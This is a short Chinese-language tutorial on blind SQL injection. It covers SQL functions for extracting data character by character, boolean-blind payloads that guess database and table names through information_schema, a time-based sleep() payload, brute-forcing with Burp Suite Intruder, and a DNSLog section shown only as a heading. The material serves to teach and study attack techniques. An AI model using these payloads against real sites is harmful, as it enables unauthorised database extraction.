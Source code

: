 # 无显注入法--无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
    ascii(),编码绕过,如: ascii(substr((select user()),1,1))=114
    left(str,length)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配,[hackbar手注](https://www.jianshu.com/p/127f3bc8df5c)

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s' 
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理: 

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配,提高效率语句:    if((left(user(),1)='a'),sleep(5),1)

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)
或者直接利用bp注入
![](/assets/WX20190320-151705@2x.png)

### 0x04 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)






